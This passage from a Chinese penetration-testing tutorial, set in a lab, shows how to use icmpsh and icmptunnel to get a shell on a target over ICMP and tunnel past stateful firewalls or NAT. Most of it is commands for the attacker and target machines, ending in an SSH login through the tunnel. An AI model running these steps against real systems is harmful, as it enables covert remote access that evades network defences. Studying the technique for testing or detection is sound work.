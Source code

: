 在攻击机上运行：

    
    
    python2 icmpsh_m.py 172.16.214.6 172.16.214.2

在目标机上运行

    
    
    ./icmpsh.exe -t 172.16.214.6

此时在攻击机上可以看到通过 icmp 协议建立的 shell

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211027204329.png)

### icmptunnel

icmptunnel 的优势在于可以穿过状态防火墙或 NAT，同样在 github 上进行下载，值得注意的是该工具只有 Linux 版。

    
    
    git clone https://github.com/jamesbarlow/icmptunnel.git  
    cd icmptunnel  
    make

目前有这样的一个场景，攻击者为 Linux，但由于目标存在状态防火墙或者使用了 NAT 导致无法获得 shell，此时可以通过 icmptunnel
绕过限制。

    
    
    攻击机 IP：172.16.214.6  
    目标机 IP：172.16.214.5

在攻击机上运行：

    
    
    echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all        # 禁用 ICMP echo 回复，防止内核自己对ping包进行响应  
    ./icmptunnel -s    # 开启服务端模式

在攻击机上新开启一个终端运行：

    
    
    /sbin/ifconfig tun0 10.0.0.1 netmask 255.255.255.0    # 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.1)

在目标机上运行：

    
    
    echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all  
    ./icmptunnel 172.16.214.6

在目标机上新开启一个终端运行：

    
    
    /sbin/ifconfig tun0 10.0.0.2 netmask 255.255.255.0    # 指定一个网卡tun0，用于给隧道服务器端分配一个IP地址 (10.0.0.2)

至此，已经通过 ICMP 建立了一个点对点隧道。

在攻击机上，尝试通过 ssh 进行连接，可以看到通过刚才建立的隧道成功连接到目标机。

    
    
    ssh root@10.0.0.2
